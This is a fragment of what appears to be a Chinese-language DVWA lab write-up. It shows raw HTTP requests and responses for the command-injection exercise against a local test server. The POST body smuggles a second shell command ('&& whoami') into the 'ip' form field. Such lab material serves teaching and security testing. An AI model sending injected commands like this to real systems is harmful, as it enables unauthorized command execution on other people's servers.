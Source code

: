 HTTP/1.1 200 OK

Date: Tue, 20 Aug 2019 02:50:43 GMT

Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45

X-Powered-By: PHP/5.4.45

Content-Length: 4

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html

test

**POST请求包**

POST /DVWA/vulnerabilities/exec/ HTTP/1.1

Host: 192.168.66.136

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 40

DNT: 1

Connection: keep-alive

Referer: http://192.168.66.136/DVWA/vulnerabilities/exec/

Cookie: security=low; PHPSESSID=190krorgsuckk0elaa1tk0v891

Upgrade-Insecure-Requests: 1

ip=127.0.0.1+%26%26+whoami&Submit=Submit

**POST返回包**

HTTP/1.1 200 OK

Date: Tue, 20 Aug 2019 02:52:47 GMT

Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45

X-Powered-By: PHP/5.4.45

Expires: Tue, 23 Jun 2009 12:00:00 GMT

Cache-Control: no-cache, must-revalidate

Pragma: no-cache

Content-Length: 5161
